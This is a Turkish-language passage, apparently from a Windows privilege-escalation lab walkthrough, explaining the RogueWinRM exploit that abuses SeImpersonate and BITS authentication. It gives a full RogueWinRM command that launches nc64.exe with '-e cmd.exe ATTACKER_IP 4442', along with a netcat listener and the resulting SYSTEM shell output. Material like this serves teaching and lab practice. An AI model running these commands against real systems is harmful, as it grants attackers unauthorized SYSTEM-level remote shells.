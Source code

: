 Herhangi bir nedenle WinRM servisi kurban sunucuda çalışmıyorsa, saldırgan 5985 numaralı portta sahte bir WinRM hizmeti başlatabilir ve başlarken BITS servisi tarafından yapılan kimlik doğrulama girişimini yakalayabilir. Saldırganın SeImpersonate yetkileri varsa, bağlanan kullanıcı yani SYSTEM adına herhangi bir komutu çalıştırabilir.

Exploiti çalıştırmadan önce, saldırganımızın makinesinde bir reverse shell almak için bir netcat dinleyicisi başlatıyoruz.

Ardından, aşağıdaki komutu kullanarak RogueWinRM exoloitini tetiklemek için web shell'imizi kullanalım:

    c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

![privesc8.png](img/privesc8.png)

Not: Bu exploitin çalışması 2 dakika kadar sürebilir, dolayısıyla tarayıcınız bir süreliğine yanıt vermiyor gibi görünebilir. Bu durum, exploiti birden çok kez çalıştırdığınızda, yeniden başlatmadan önce BITS servisinin durmasını beklemesi gerektiğinden meydana gelir. BITS hizmeti, başlatıldıktan 2 dakika sonra otomatik olarak duracaktır.

-p parametresi, bu durumda nc64.exe olan, exploit tarafından çalıştırılacak yürütülebilir dosyayı belirtir. -a parametresi, yürütülebilir dosyaya argümanları iletmek için kullanılır. Nc64'ün saldırgan makinemize karşı reverse shell kurmasını istediğimiz için netcat'e iletilecek argümanlar -e cmd.exe ATTACKER_IP 4442 olacaktır.

Her şey doğru şekilde ayarlanmışsa, SYSTEM yetkilerine sahip bir kabuk beklemelisiniz:

    user@attackerpc$ nc -lvp 4442
    Listening on 0.0.0.0 4442
    Connection received on 10.10.175.90 49755
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.
